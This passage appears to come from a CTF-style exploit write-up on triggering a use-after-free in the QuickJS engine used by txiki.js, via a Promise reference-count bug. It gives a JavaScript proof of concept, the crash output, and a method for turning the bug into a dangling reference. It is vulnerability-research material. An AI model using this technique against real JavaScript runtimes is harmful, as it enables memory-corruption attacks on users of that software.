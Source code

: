 ### Triggering UAF

It is quite easy to trigger the vulnerability: we just need to pass an object to promise result.

```javascript
function f(a)
{
  Math.min(a)
  console.log("Resolve2");
}

let arr = new ArrayBuffer(0x500);
function main()
{
  let p = new Promise((resolve, reject) =>
  {
    console.log("Promise Init");
    resolve(arr); // pass `arr` as promise result
  });
  p.then(f); // set callback handler
}

main();
console.log("Finish Main");
```

The execution result is shown below, although the assertion failure is not necessarily triggered all the time:

```
Promise Init
Finish Main
Resolve2
tjs: txiki.js/deps/quickjs/src/quickjs.c:5660: gc_decref_child: Assertion `p->ref_count > 0' failed.
Aborted (core dumped)
```

If we inspect reference counter at `Math.min(a)`, we find that `ref_count` is `3`. This is quite weird, because we expect `a` does not contribute to any reference count due to the bug, and there is only `arr` referencing to the object so the `ref_count` should be 2. I would guess there might be some internal reference inside Promise mechanism that is causing such one more `ref_count`.

What we want is actually 2 variables referencing to the same object but `ref_count` is one less than it should be (e.i. `ref_count == 2`). Therefore, setting one of them to `undefined` can cause the other variable to be UAF. However, the situation described above cannot satisfy this requirement. This actually got me stuck for quite long time. 

Considering possible internal reference inside Promise mechanism mentioned above, I was thinking if such internal reference would disappear once this promise handler finishes. The idea is to copy the `arr` variable into another global variable `arr2`, and to start another promise handler but this time we pass a variable without reference count, so the bug would not be triggered. Inside this new handler, if we look at `ref_count` of `arr`, it becomes `2`; and if we set `arr` to `undefined`, another global variable `arr2` will become UAF!
